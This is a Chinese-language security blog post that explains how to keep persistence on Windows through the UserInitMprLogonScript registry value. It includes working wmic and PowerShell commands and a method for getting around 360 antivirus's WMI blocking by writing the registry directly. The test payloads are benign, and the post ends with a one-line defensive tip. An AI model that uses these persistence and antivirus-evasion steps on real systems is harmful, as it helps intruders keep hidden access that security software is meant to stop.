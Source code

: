 ```yaml
---
layout: post
title: Use Logon Scripts to maintain persistence
---
```


## 0x00 前言
---

依旧是对后门利用方法做介绍，本次介绍的是使用Logon Scripts的方法。然而我在研究过程中发现了一个特别的用法，脚本优先于杀毒软件执行，能够绕过杀毒软件对敏感操作的拦截，本文将要具体介绍这个技巧。

**注:**

有些杀毒软件是可以做到优先于Logon Scripts启动的

## 0x01 简介
---

- Logon Scripts用法
- 绕过360对wmi调用的拦截
- 特别用法

## 0x02 Logon Scripts用法
---

思路来自于Adam@Hexacorn，地址如下：

http://www.hexacorn.com/blog/2014/11/14/beyond-good-ol-run-key-part-18/

### 简要介绍Logon Scripts的用法

注册表路径：`HKCU\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/1-1.png)

bat内容如下：

`start calc.exe`

注销，登录

执行脚本11.bat，弹出计算器


## 0x03 绕过360对通过wmi修改环境变量的拦截
---

在之前的文章[《Use CLR to maintain persistence》](https://3gstudent.github.io/3gstudent.github.io/Use-CLR-to-maintain-persistence/)提到过使用wmic修改环境变量的方法

命令如下：

```
wmic ENVIRONMENT create name="COR_ENABLE_PROFILING",username="%username%",VariableValue="1"

wmic ENVIRONMENT create name="COR_PROFILER",username="%username%",VariableValue="{11111111-1111-1111-1111-111111111111}"
```

然而，360会对WMI的操作进行拦截，如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/2-1.png)

其实通过WMI添加环境变量等价于在注册表`HKCR\Environment\`新建键值

所以对WMI的操作可以通过写注册表的操作进行代替


以上WMI命令可替换为如下powershell代码：

```
New-ItemProperty "HKCU:\Environment\" COR_ENABLE_PROFILING -value "1" -propertyType string | Out-Null

New-ItemProperty "HKCU:\Environment\" COR_PROFILER -value "{11111111-1111-1111-1111-111111111111}" -propertyType string | Out-Null
```

## 0x04 特别用法
---

源于我的一个特别的想法

我在对该技巧研究的过程中，产生了一个有趣的想法，Logon Scripts启动的顺序是否优先于其他程序呢？

如果是的话，那么是否也优先于杀毒软件呢？

下面开始我的测试：


### 1、cmd输入如下代码

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
```

不出意外，被拦截


### 2、设置Logon Scripts

11.bat代码如下：

```
wmic ENVIRONMENT create name="test",username="%username%",VariableValue="I run faster!"
reg query HKEY_CURRENT_USER\Environment /V test
pause
```

### 3、启用Logon Scripts

注册表路径：`HKCR\Environment\`

创建字符串键值： `UserInitMprLogonScript`

键值设置为bat的绝对路径：`c:\test\11.bat`

由于调用WMI会被拦截，可以通过powershell实现，代码如下：

```
New-ItemProperty "HKCU:\Environment\" UserInitMprLogonScript -value "c:\test\11.bat" -propertyType string | Out-Null
```

### 4、注销，重新登录，测试

如果注册表`HKCR\Environment\`成功被写入键值`test` `REG_SZ` `I run faster!`，说明Logon Scripts优先于杀毒软件执行，绕过杀毒软件的限制


完整操作如下图

![Alt text](https://raw.githubusercontent.com/3gstudent/BlogPic/master/2017-8-9/3.gif)

测试成功，验证我们的结论

## 0x05 防御
---

监控注册表键值`HKCR\Environment\UserInitMprLogonScript`


## 0x06 小结
---

本文对Logon Scripts的用法进行了测试，并且介绍了一个特别用法，Logon Scripts能够优先于杀毒软件执行，绕过杀毒软件对敏感操作的拦截。
站在防御的角度，要对此保持警惕。


---


[LEAVE A REPLY](https://github.com/3gstudent/feedback/issues/new)
